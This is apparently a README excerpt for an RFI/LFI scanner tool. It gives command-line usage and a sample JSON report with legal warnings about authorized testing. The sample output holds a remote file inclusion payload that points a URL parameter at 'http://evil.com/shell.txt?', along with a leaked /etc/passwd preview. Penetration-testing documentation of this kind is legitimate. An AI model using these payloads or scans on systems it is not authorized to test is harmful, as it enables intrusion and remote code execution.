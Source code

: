 ## Usage Examples

### Basic Usage

```bash
# Test a single URL
python3 modern_rfi_scanner.py --url "http://example.com/page.php?id=" --type rfi

# Test multiple targets
python3 modern_rfi_scanner.py --targets targets.txt --type lfi

# Verbose output with custom settings
python3 modern_rfi_scanner.py \
    --targets targets.txt \
    --type rfi \
    --concurrent 20 \
    --timeout 15 \
    --verbose
```

### Output Format

```json
{
  "scan_summary": {
    "total_scanned": 50,
    "vulnerable_found": 3,
    "scan_type": "RFI/LFI",
    "timestamp": "2024-01-15 14:30:25"
  },
  "vulnerable_targets": [
    {
      "url": "http://example.com/page.php?id=http://evil.com/shell.txt?",
      "payload": "http://evil.com/shell.txt?",
      "response_code": 200,
      "response_preview": "root:x:0:0:root:/root:/bin/bash...",
      "scan_time": 1.23
    }
  ]
}
```

## Security and Legal Considerations

### Important Warnings

1. **Educational Use Only**: This tool is for learning and authorized testing
2. **Legal Compliance**: Only test systems you own or have permission to test
3. **Responsible Disclosure**: Report vulnerabilities to system owners
4. **Rate Limiting**: Built-in delays to avoid overwhelming servers
